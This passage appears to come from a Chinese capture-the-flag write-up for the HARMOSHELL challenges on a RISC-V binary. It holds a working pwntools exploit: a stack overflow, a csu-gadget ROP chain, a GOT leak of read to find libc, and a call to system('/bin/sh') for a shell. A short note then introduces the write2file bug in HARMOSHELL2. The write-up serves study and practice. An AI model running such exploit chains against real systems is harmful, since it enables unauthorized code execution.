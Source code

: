 ```
        00011832 02 79           c.ldsp     s2,0x20(sp)
        00011834 e2 69           c.ldsp     s3,0x18(sp)
        00011836 42 6a           c.ldsp     s4,0x10(sp)
        00011838 a2 6a           c.ldsp     s5,0x8(sp)
        0001183a 21 61           c.addi16sp sp,0x40
        0001183c 82 80           ret

'''

def csu(addr, a0, a1, a2):
    p = b"/bin/sh\x00"+p64(a2)+p64(a1)+p64(a0)+p64(1)+p64(0)
    p += p64(addr)+p64(csu2)
    return p

def csu_j(addr):
    p = p64(0)+p64(0)+p64(0)+p64(0)+p64(1)+p64(0)
    p += p64(0)+p64(addr)
    return p


csu1 = 0x0001182c
csu2 = 0x0001181a
bss = 0x00013340
cout_addr = 0x13118
read_got = 0x13060
stdaddr = 0x13080
read_plt = 0x10dc0
straddr = 0x118e8
ret_addr = 0x114b8

payload = b'a'*(0x138)+p64(csu1)
#print('read:',hex(e.got['']))
payload += csu(stdaddr, cout_addr, read_got, 0x10)
payload += csu(read_got, 0, read_got, 0x10)
payload += csu(read_got, read_got+8, read_got, 0x10)

echo("flag47", payload)

libc.address = u64(p.recv(6).ljust(8, b"\x00")) - libc.sym['read']
log.success("libc address is `{``}`".format(hex(libc.address)))

p.send(p64(libc.sym['system'])+b'/bin/sh\x00')

p.interactive()
```



## HARMOSHELL2

这里和`HARMOSHELL`的二进制相差不大，基本的数据结构相同，但是没有了栈溢出漏洞，漏洞的位置变为了`echo`函数中的`write2file`函数中，也就是向文件中写内容的函数
